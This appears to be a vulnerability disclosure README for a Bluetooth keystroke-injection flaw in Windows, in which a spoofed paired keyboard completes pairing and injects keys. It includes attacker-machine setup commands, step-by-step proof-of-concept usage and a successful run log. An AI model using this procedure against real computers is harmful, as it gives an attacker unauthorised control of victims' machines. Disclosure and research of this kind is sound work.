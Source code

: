 ## Overview

A physically-proximate attacker can inject keystrokes into a Windows computer over unauthenticated Bluetooth.

The Windows computer must be paired with a Bluetooth keyboard, and the keyboard must be switched off (or out of range).

An attacker, using an Ubuntu computer and Broadcom-based Bluetooth adapter, spoofs the address of the target keyboard and connects to L2CAP 17 on the Windows computer, while specifying the `NoInputNoOutput` SSP pairing-capability.

The victim sees a notification reading `Add a device` `Tap to set up your <Keyboard Name>`.

If they ignore the notification, nothing happens.

If they click on the notification, they are presented with a Bluetooth pairing-request dialog.

If the victim has the "Add a Bluetooth device" UI open, they will not see a notification, and will instead be immediately presented with the pairing-request as a modal dialog.

The attacker can complete pairing once the pairing-request dialog closes, even if the user clicks `Cancel` or `X`. Once pairing completes, the attacker connects to L2CAP 17 (HID Control).

The attacker then connects to L2CAP 19 (HID Interrupt), and is able to inject arbitrary keystrokes.

## Proof of Concept

The attached `windows-poc.py` demonstrates a keystroke-injection attack, and is intended to be run on an Ubuntu 22.04 computer using a Broadcom-based Bluetooth adapter.

I have found this adapter to work reliably: https://www.amazon.com/Kinivo-USB-Bluetooth-4-0-Compatible/dp/B007Q45EF4/

Starting from a clean Ubuntu 22.04 install, the attacker machine can be provisioned as follows:

```
sudo apt-get update && sudo apt-get -y upgrade

# install dependencies
sudo apt install -y bluez-tools bluez-hcidump git \
                    python3-pip python3-setuptools \
                    libbluetooth-dev

# configure bluetoothd to run in compatibility mode to support sdptool
sudo sed -i "s|ExecStart=/usr/lib/bluetooth/bluetoothd|ExecStart=/usr/lib/bluetooth/bluetoothd --compat|g" /lib/systemd/system/bluetooth.service
sudo systemctl daemon-reload
sudo systemctl restart bluetooth

# install pybluez
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install
python3 -m pip install pydbus

# build bdaddr from bluez
cd ~
git clone https://github.com/bluez/bluez.git
cd bluez
gcc -o bdaddr tools/bdaddr.c src/oui.c -lbluetooth -I.
sudo cp bdaddr /usr/local/bin/
```

## Running the PoC

1. Pair a Bluetooth keyboard to the target Windows-computer, and turn off the keyboard
2. On the Ubuntu computer, run the PoC: `./windows-poc.py -i <Interface> -k <Keyboard-Address> -c <Windows-Address>`
3. Click on the notification when it appears on the Windows computer
4. Close the pairing-request dialog (or click `Cancel` or `Approve`)
5. If successful, the Ubuntu machine will connect to the Windows machine and inject a nondestructive payload of `tab` keypresses for 5 seconds

## LMP Race Condition

There is a race condition during link-establishment where both the Ubuntu and Windows computers attempt to enable link-encryption at the same time. Pairing usually completes within 1-2 seconds, but it may take as long as 15-30 seconds.

The race condition can be mitigated with a small patch to `hci_event.c` in the attacker's kernel; I am happy to share further details if this would be helpful.

## Example PoC Invocation

```
$ ./windows-poc.py -i hci0 -k 3C:A6:F6:EC:5B:ED -c 04:33:C2:19:CD:3B
Manufacturer:   Broadcom Corporation (15)
Device address: 12:34:56:78:9A:BC
New BD address: 3C:A6:F6:EC:5B:ED

Address changed - Reset device now
HID keyboard service registered
'NoInputNoOutput' pairing-agent running
Set Secure Simple Pairing for hci1 failed with status 0x11 (Invalid Index)
connecting to PSM 17
error connecting to PSM 17: [Errno 13] Permission denied
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 13] Permission denied
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 13] Permission denied
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 13] Permission denied
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
error connecting to PSM 17: [Errno 12] Cannot allocate memory
connecting to PSM 17
successfully connected to PSM 17 (HID Control)
connecting to PSM 19
successfully connected to PSM 19 (HID Interrupt)
injecting 5 seconds of 'tab' keypresses
Manufacturer:   Broadcom Corporation (15)
Device address: 3C:A6:F6:EC:5B:ED
New BD address: 12:34:56:78:9A:BC

Address changed - Reset device now
```
